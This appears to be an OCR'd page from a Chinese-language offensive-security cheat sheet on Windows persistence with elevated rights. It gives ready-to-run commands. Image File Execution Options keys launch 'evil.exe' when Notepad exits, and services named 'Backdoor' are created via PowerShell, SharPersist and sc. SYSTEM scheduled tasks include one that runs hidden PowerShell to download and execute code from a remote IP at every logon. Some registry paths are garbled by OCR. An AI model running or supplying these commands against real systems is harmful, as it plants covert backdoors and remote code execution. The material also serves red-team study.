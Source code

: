 
#### GlobalFlag

> 在记事本被杀死后运行可执行文件

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
otepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit
otepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit
otepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```

### 提升权限的启动

在用户启动文件夹中创建批处理脚本。

```powershell
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 
```

### 提升权限的服务

创建一个将自动或按需启动的服务。

```powershell
# Powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here." -StartupType Automatic
sc start pentestlab

# SharPersist
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c backdoor.exe" -n "Backdoor" -m add

# sc
sc create Backdoor binpath= "cmd.exe /k C:\temp\backdoor.exe" start="auto" obj="LocalSystem"
sc start Backdoor
```

### 提升权限的计划任务

以 SYSTEM 身份运行的预定任务，每天上午 9 点或在特定日子运行。

> 作为计划任务生成的进程，其父母进程为 taskeng.exe

```powershell
# Powershell
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\temp\backdoor.exe"
$T = New-ScheduledTaskTrigger -Daily -At 9am
# OR
$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
$S = New-ScheduledTaskSettingsSet
$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
Register-ScheduledTask "Backdoor" -InputObject $D

# Native schtasks
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password
schtasks /Create /RU "NT AUTHORITY\SYSTEM" /tn [TaskName] /tr "regsvr32.exe -s \"C:\Users\*\AppData\Local\Temp\[payload].dll\"" /SC ONCE /Z /ST [Time] /ET [Time]

##(X86) - On User Login
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
```